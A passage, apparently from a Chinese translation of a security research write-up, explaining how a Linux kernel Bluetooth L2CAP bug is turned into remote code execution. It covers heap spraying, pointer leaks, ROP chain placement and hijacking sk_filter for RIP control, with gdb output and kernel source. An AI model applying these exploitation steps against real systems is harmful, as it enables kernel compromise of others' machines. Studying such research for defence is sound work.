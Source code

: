 请注意这两个泄漏的指针的最重要字节的不同之处。通过观察较大的字节，我们可以进行有根据的猜测（或检查 Linux 文档），以确定它们是否属于一个段、堆或堆栈。为了确认我们确实能够收回结构 `l2cap_chan` 的地址，我们可以使用以下命令检查受害者机器上的内存:

```shell
$ sudo gdb /boot/vmlinuz /proc/kcore
(gdb) x/40gx 0xffff98ee5c62fc00
0xffff98ee5c62fc00:	0x4141414141414141	0x4242424242424242
0xffff98ee5c62fc10:	0x4343434343434343	0x4444444444444444
0xffff98ee5c62fc20:	0x4545454545454545	0x4646464646464646
0xffff98ee5c62fc30:	0x4747474747474747	0x4848484848484848
...
0xffff98ee5c62fd00:	0x6161616161616161	0x6262626262626262
0xffff98ee5c62fd10:	0x6363636363636363	0x6464646464646464
0xffff98ee5c62fd20:	0x6565656565656565	0x6666666666666666
0xffff98ee5c62fd30:	0x6767676767676767	0x6868686868686868
```

内存内容看起来很有希望！请注意，使用一个模式进行喷射是很有用的，因为这允许我们立即识别内存块，并理解当出现 panic 时，哪些偏移量会被解除引用。

## 把所有东西结合起来

现在我们已经拥有了完成 RCE 所需的全部原语：

- 我们可以控制一个地址已知的内存块(称为“负载”)。
- 我们可以泄漏一个 `.text` 段指针，并构建一个 ROP 链，我们可以将其存储在有效负载中。
- 我们可以完全控制 `sk_filter` 字段，并将其指向有效负载。

### 实现 RIP 控制 

让我们回顾一下 `sk_filter_trim_cap()`，并理解为什么控制 `sk_filter` 是有用的。

```c
// https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/net/core/filter.c
int sk_filter_trim_cap(struct sock *sk, struct sk_buff *skb, unsigned int cap)
{
	...
	rcu_read_lock();
	filter = rcu_dereference(sk->sk_filter);
	if (filter) {
		struct sock *save_sk = skb->sk;
		unsigned int pkt_len;

		skb->sk = sk;
		pkt_len = bpf_prog_run_save_cb(filter->prog, skb);
		skb->sk = save_sk;
		err = pkt_len ? pskb_trim(skb, max(cap, pkt_len)) : -EPERM;
	}
	rcu_read_unlock();

	return err;
}
```

由于我们控制 filter 的值，我们还可以通过在负载的偏移 0x18 处放置一个指针来控制 `filter->prog`。也就是说，这是 prog 的偏移量:
